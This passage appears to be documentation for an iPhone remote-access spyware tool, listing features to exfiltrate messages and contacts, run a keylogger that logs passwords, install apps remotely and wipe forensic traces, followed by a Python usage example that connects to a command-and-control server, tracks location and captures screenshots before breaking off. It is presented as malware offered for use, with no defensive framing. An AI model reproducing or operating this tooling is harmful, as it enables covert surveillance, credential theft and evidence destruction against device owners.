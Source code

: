 **7. Exfiltrate Messages**
```
Extract iMessages and SMS
Saves to: exfiltrated_data/{device_id}/messages/
Includes contacts, timestamps, attachments
```

**8. Exfiltrate Contacts**
```
Extract contact database
Saves to: contacts_{device_id}_{timestamp}.db
Includes names, numbers, emails, photos
```

**9. Start Keylogger**
```
Capture all keyboard input
Duration: Custom (default 3600s = 1 hour)
Logs passwords, messages, searches
```

### Management

**10. Install App**
```
Install additional apps remotely
Requires IPA URL
Enterprise-signed apps only
```

**11. Cleanup Traces**
```
Remove all forensic evidence:
- Clear system logs
- Remove artifacts
- Reset timestamps
- Clear caches
```

---

## 💻 Command Line Usage

### Basic Operations

```python
import asyncio
from iphone_remote_access import iPhoneRemoteControl

async def main():
    # Initialize
    controller = iPhoneRemoteControl(
        c2_server="http://localhost:8443",
        encryption_key="YOUR_KEY_HERE"
    )
    
    device_id = "00008030-001234567890ABCD"
    
    # Track location
    location = await controller.track_location(device_id)
    print(f"Location: {location}")
    
    # Capture screenshot
    screenshot = await controller.capture_screen(device_id)
    Path("screenshot.png").write_bytes(screenshot)
    
    # Exfiltrate data
```